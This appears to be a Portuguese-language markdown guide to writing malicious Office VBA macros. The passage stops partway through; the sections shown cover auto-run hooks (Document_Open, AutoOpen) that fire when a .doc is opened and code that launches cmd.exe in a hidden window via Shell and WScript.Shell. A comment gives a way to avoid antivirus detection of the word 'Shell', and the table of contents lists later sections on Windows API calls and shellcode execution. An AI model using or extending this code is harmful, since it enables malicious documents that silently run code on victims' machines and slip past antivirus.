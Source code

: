 # Sumário

- [Sumário](#sumário)
- [Script inicial para execução automática](#script-inicial-para-execução-automática)
- [Execução de programas](#execução-de-programas)
- [Comunicação com API do Windows](#comunicação-com-api-do-windows)
  - [Diferenciação entre Excel 64 bit e Excel 32 bit](#diferenciação-entre-excel-64-bit-e-excel-32-bit)
  - [Integração com a API do Windows](#integração-com-a-api-do-windows)
  - [Execução de shellcode](#execução-de-shellcode)


# Script inicial para execução automática

```vbnet
' Função utilizada para inicio automático ao abrir arquivo .doc
Sub Document_Open()
 Main
End Sub

' Função utilizada para inicio automático ao abrir arquivo .doc
Sub AutoOpen()
 Main
End Sub

' Início do programa
Sub Main()
 MsgBox ("This is a macro test")
End Sub
```

# Execução de programas

```vbnet
' Função utilizada para inicio automático ao abrir arquivo .doc
Sub Document_Open()
 Main
End Sub

' Função utilizada para inicio automático ao abrir arquivo .doc
Sub AutoOpen()
 Main
End Sub


Sub Main()
 ' Declara a variável "comando" como uma palavra
 Dim comando As String
 comando = "cmd.exe"
 
 ' Executa o comando no terminal
 ' Levar em consideração que a palavra "Shell" pode ser detectada como maliosa em alguns antivirus
 Shell comando, vbHide

 ' Outra forma de iniciar um programa não utilizando a palavra "Shell"
 ' O 0 significa que o programa executado ficará com a janela invisível
 CreateObject("Wscript.Shell").Run comando, 0
End Sub

' Como o VBA não tem uma função nativa que espera por um período de tempo, essa função simula essa espera de tempo em segundos
Sub Sleep(espera As Long)
```